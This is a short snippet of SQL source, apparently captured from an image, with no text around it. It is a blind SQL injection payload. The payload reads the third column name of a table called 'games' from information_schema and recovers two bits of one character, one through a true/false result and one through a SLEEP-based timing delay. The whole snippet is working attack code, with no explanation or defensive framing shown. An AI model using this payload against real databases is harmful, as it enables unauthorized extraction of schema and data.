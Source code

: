 ```sql
...

-- Extract bits 5 & 6 of the seventh character of the third result
SELECT (
  -- Extract 5th bit through true/false result
  CASE WHEN (
    SELECT INSTR(
      'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789',
      SUBSTR(
        (
          SELECT
          DISTINCT(column_name) FROM information_schema.columns
          WHERE table_name='games'
          LIMIT 1 OFFSET 2 -- Third result
        ),
        7, -- Seventh character
        1
      )
    )
  )&16=16 THEN 1 ELSE 0 END
) + (
  -- Extract 6th bit through temporal result
  CASE WHEN (
    SELECT INSTR(
      'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789',
      -- Select seventh character
      SUBSTR(
        (
          SELECT
          DISTINCT(column_name) FROM information_schema.columns
          WHERE table_name='games'
          LIMIT 1 OFFSET 2 -- Third result
        ),
        7, -- Seventh character
        1
      )
    )
  )&32=32 THEN SLEEP(2) ELSE 0 END
);
```
